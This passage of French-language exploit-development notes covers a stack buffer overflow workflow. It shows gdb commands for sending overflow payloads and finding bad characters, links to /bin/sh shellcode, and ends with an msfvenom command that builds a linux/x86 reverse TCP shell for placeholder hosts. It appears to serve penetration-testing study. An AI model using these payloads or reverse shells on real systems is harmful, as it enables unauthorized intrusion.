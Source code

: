 ```shell-session
Buffer = "\x55" * (<nb_caractères> - 256) = ?
 CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
   RIP = "\x66" * 8
```

4. Afficher la fonction main

```shell-session
disas main
```

5. Mettre un breakpoint sur la première fonction

```shell-session
break <funct> 
```

6. Send CHARS

```shell-session
run $(python -c 'print "\x55" * (<nb_caractères> - 256) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 8')
```


7. Afficher la stack

```
x/2000xb $esp+500
```

8. trouver l'adresse a laquelle se termine nos x55 et ou commence x00, x01, x02...
9. Identifier les caractères manquants ou modifiés un par un.
10. Soustraire le nombre de mauvais caractères pour recalculer le buffer
11. Renvoyer le CHARS sans les mauvais caractères

```shell-session
(gdb) run $(python -c 'print "\x55" * (<nb_caractères> - X) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 8')
```


REPETER LE PROCESS JUSQU'A + AUCUN MAUVAIS CARACTERE.


# 4. Générer le Shell code

Régénérer un Shell code en prenant bien en compte:

- `Architecture`
- `Platform`
- `Bad Characters`


shell code pour appeler /bin/sh -> https://shell-storm.org/shellcode/files/shellcode-806.html


1. Générer le shell code
```shell-session
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "\x00\x09..." --out shellcode
```
